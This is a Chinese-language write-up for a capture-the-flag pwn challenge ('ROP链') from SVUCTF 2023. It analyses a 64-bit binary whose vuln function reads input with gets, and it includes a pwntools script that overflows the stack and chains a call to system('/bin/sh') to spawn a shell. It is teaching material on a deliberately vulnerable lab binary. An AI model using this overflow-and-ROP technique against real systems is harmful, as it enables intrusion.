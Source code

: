 # ROP链

- 作者：pn1fg
- 参考：
- 难度：Medium
- 分类：Pwn
- 镜像：[svuctf-helloworld-2023/rop](https://ghcr.io/svuctf/svuctf-helloworld-2023/rop)
- 端口：70

# 题目描述

最简单的ROP链

# 题目解析

- 源码：[pwn.c](build/pwn.c)
- 考点：64位ROP链

由于出题目的时间跨度有点大，导致本题与上题`ret2text_64`题目重合，为表达歉意，我们就不更换题目了，这道题目赠送给各位同学们

这里和同学们简单分析一下

#### 查看文件信息

查看文件类型：

```shell
>>> file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9c5a0203058595c56d22e89b7c4b45869bb959de, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    ulong s;

    sym.imp.system("echo You know the size of the input data?");
    sym.imp.gets(&s);
    return;
}
```

`gets`函数可以读入无限制长度的字符（直到换行`\n`），导致超出`s`长度，覆盖`rbp`，造成栈溢出

构造利用都与上题一致

#### 编写利用程序：

exp 也可以和上题共用，这里就演示一个

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote(IP,port)
else:
    io = process('./pwn')

elf = ELF("./pwn")
rop = ROP(elf)

rop.raw(cyclic(0x70 + 8))
rop.raw(rop.find_gadget(["ret"]))
rop.call(elf.sym["system"], [next(elf.search(b"/bin/sh"))])

payload = rop.chain()
io.sendlineafter(b'a?\n',payload)
io.interactive()
```
